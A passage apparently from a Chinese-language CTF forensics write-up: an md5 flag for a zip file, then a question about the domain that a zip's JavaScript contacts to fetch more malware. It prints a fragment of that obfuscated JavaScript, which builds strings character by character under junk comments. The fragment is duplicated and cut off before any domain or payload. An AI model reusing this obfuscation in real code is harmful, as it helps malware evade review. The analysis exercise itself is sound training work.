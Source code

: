 提取出压缩包

```shell
f17dc5b1c30c512137e62993d1df9b2f  1.zip
```

> $ md5sum 1.zip

> **flag{f17dc5b1c30c512137e62993d1df9b2f}**

## 三,下载数据包文件 hacker1.pacapng，分析 zip 压缩包通过加载其中的 javascript 文件到另一个域名下载后续恶意程序， 该域名是什么?提交答案:flag{域名}(无需 http、https)

```shell
/* Blanditiis vel dolorem alias ullam similique. */ /* Et reprehenderit blanditiis qui veniam voluptas. */
/* Et eveniet ea est quis error soluta. */ /* Molestiae non eos similique consectetur facere. */ /* Velit quis et ab aut tempora quasi. */ /* Harum et maiores vel et. */                 x808919187 = '';
/* Aperiam aliquam nemo molestias exercitationem. */ /* Placeat ratione nostrum cumque tempore. */ /* Consequatur consectetur sed rerum aperiam quia. */ /* Libero rem et error sit sit ut. */ x808919187+='t';
/* Et laudantium mollitia itaque. */ /* Suscipit nostrum sequi soluta est. */ /* Nobis voluptatem labore aut nihil. */ x808919187+='r';
/* Ipsum sit neque debitis sunt. */ /* Et eum doloribus eos cupiditate deserunt. */ x808919187+='u';
/* Quia vitae omnis molestiae. */ /* Eaque nihil aut neque saepe iste minus et. */ /* Quia eveniet sit iusto molestias quidem non. */ x808919187+='e';
/* Ex est saepe illo animi libero aut quos magnam. */ /* Sequi est at ex sed. */ /* Provident sed est maiores dolor odio nostrum. */ x449195806 = '';
/* Porro minima ab reprehenderit non eaque dolore. */ /* Ut in porro molestiae non qui. */ /* Sed quis qui ipsum repellat. */ x449195806+='f';
/* Non autem iste aut aut et sequi explicabo. */ /* Quisquam qui eaque eligendi temporibus quas. */ /* Voluptatem facilis deserunt et et odio. */ /* Accusantium accusantium et neque molestias. */ x449195806+='a';
/* Aliquam qui quisquam quasi rem fugit. */ /* Doloribus saepe repudiandae vel et. */ /* Voluptatem amet adipisci aut inventore minus. */ /* Sed cum sunt dolor occaecati similique. */ /* Non doloremque culpa dolores illo. */ x449195806+='l';/* Blanditiis vel dolorem alias ullam similique. */ /* Et reprehenderit blanditiis qui veniam voluptas. */
/* Et eveniet ea est quis error soluta. */ /* Molestiae non eos similique consectetur facere. */ /* Velit quis et ab aut tempora quasi. */ /* Harum et maiores vel et. */                 x808919187 = '';
/* Aperiam aliquam nemo molestias exercitationem. */ /* Placeat ratione nostrum cumque tempore. */ /* Consequatur consectetur sed rerum aperiam quia. */ /* Libero rem et error sit sit ut. */ x808919187+='t';
/* Et laudantium mollitia itaque. */ /* Suscipit nostrum sequi soluta est. */ /* Nobis voluptatem labore aut nihil. */ x808919187+='r';
/* Ipsum sit neque debitis sunt. */ /* Et eum doloribus eos cupiditate deserunt. */ x808919187+='u';
/* Quia vitae omnis molestiae. */ /* Eaque nihil aut neque saepe iste minus et. */ /* Quia eveniet sit iusto molestias quidem non. */ x808919187+='e';
/* Ex est saepe illo animi libero aut quos magnam. */ /* Sequi est at ex sed. */ /* Provident sed est maiores dolor odio nostrum. */ x449195806 = '';
/* Porro minima ab reprehenderit non eaque dolore. */ /* Ut in porro molestiae non qui. */ /* Sed quis qui ipsum repellat. */ x449195806+='f';
/* Non autem iste aut aut et sequi explicabo. */ /* Quisquam qui eaque eligendi temporibus quas. */ /* Voluptatem facilis deserunt et et odio. */ /* Accusantium accusantium et neque molestias. */ x449195806+='a';
/* Aliquam qui quisquam quasi rem fugit. */ /* Doloribus saepe repudiandae vel et. */ /* Voluptatem amet adipisci aut inventore minus. */ /* Sed cum sunt dolor occaecati similique. */ /* Non doloremque culpa dolores illo. */ x449195806+='l';
```
